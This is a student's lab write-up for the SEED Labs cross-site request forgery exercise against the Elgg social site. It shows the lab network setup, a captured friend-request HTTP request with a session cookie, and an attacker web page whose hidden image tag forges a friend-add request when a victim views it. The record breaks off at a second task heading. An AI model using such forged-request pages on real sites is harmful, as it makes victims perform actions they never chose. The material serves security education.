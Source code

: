 ```yaml
---
title: Cross-Site Request Forgery Lab
author: Xinyi Li
date: \today{}
---
```


Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Web_CSRF_Elgg.pdf

# Set-up

2 VMs:

- attacker: `10.0.2.15`
- server: `10.0.2.4`

Edit the DNS records in `/etc/hosts` on both the attacker and the server:

```
10.0.2.4       www.csrflabelgg.com
10.0.2.15       www.csrflabattacker.com
```

# Task 1

Capture a legitimate friend request from Alice:

```
http://www.csrflabelgg.com/action/friends/add?friend=43&__elgg_ts=1589690725&__elgg_token=Irq1Au9aMYevG7DW46dbHw&__elgg_ts=1589690725&__elgg_token=Irq1Au9aMYevG7DW46dbHw
GET /action/friends/add?friend=43&__elgg_ts=1589690725&__elgg_token=Irq1Au9aMYevG7DW46dbHw&__elgg_ts=1589690725&__elgg_token=Irq1Au9aMYevG7DW46dbHw HTTP/1.1
Host: www.csrflabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.csrflabelgg.com/profile/boby
X-Requested-With: XMLHttpRequest
Cookie: Elgg=btc2fee9599em32h7tc646bi83
Connection: keep-alive
```

Create a web page as [msg.html](./msg.html):

```html
<html>
    <body>
        <img src = "http://www.csrflabelgg.com/action/friends/add?friend=43"/>
    </body>
</html>
```

And put it into `/var/www/CSRF/Attacker` folder.

Then, send Alice a message that contains the URL: http://www.csrflabattacker.com/msg.html

# Task 2





